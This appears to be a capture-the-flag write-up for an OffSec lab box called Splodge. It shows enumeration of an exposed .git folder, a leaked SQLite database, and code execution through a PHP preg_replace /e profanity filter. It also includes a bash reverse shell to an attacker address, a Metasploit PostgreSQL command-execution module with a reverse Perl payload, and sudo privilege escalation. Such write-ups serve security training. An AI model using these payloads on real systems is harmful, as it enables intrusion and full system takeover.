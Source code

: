 # Splodge

### Enumeration

```
80/tcp   open  http       nginx 1.16.1
|_http-title: 403 Forbidden
| http-git: 
|   192.168.147.108:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     .gitignore matched patterns 'bug' 'key'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.16.1
```

```
http://192.168.147.108/.git/config

	name = The Splodge
	email = admin@splodge.offsec
```

Saved and edited contents of /.git/index to index.txt

GET /§§ HTTP/1.1 Intruder, Sniper Attack - index.txt

```
/database/.gitignore

In the response:
*.db
```

Blind guess.

```
http://192.168.147.108/database/splodge.db
splodge.db: SQLite 3.x database, last written using SQLite version 3008010
```

Opened it with SQLite Database Browser

| id | title    | filter | replacement   | password    |
| -- | -------- | ------ | ------------- | ----------- |
| 1  | Splodge  | /x/e   | system('id'); | \[REDACTED] |

| id | post\_id | author | message                                 |
| -- | -------- | ------ | --------------------------------------- |
| 2  | 1        | x      |  uid=0(root) gid=0(root) groups=0(root) |

/login -> admin:\[REDACTED]

Profanity Filter Regex -> /x/e

Profanity Replacement -> system('id');

Post a comment x:x&#x20;

In the response:

x: uid=997(nginx) gid=995(nginx) groups=995(nginx)

### Initial Access

Profanity Filter Regex -> /x/e

Profanity Replacement -> system('/bin/bash -i >& /dev/tcp/192.168.49.147/80 0>&1');

Post a comment x:x

### Lateral Movement

Enviroment Variables:

```
DB_HOST=127.0.0.1                                                                   
DB_PORT=5432
APP_NAME=Splodge
USER=nginx
APP_URL=http://splodge.offsec
PATH=/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/sbin:/bin
DB_CONNECTION=pgsql
DB_DATABASE=splodge
DB_PASSWORD=[REDACTED]
DB_USERNAME=postgres
HOME=/var/lib/nginx
```

```
$ ps aux | grep pgsql
thesplo+  1023  0.0  0.9 397396 17472 ?        Ss   18:26   0:00 /usr/pgsql-12/bin/postmaster -D /home/thesplodge/.pgdata
```

```
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > options 

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting     Required  Description
   ----               ---------------     --------  -----------
   DATABASE           template1           yes       The database to authenticate a
                                                    gainst
   DUMP_TABLE_OUTPUT  false               no        select payload command output
                                                    from table (For Debugging)
   PASSWORD           [REDACTED]          no        The password for the specified
                                                    username. Leave blank for a random
                                                    password.
   RHOSTS             192.168.147.108     yes       The target host(s), see https:
                                                    //github.com/rapid7/metasploit
                                                    -framework/wiki/Using-Metasploit
   RPORT              5432                yes       The target port (TCP)
   TABLENAME          imqV1ya2m           yes       A table name that does not exi
                                                    st (To avoid deletion)
   USERNAME           postgres            yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.147   yes       The listen address (an interface may be speci
                                     fied)
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### PrivEsc

```
[thesplodge@splodge ~]$ sudo -l
...
User thesplodge may run the following commands on splodge:
    (ALL) NOPASSWD: /bin/bash
    
[thesplodge@splodge ~]$ sudo /bin/bash
```
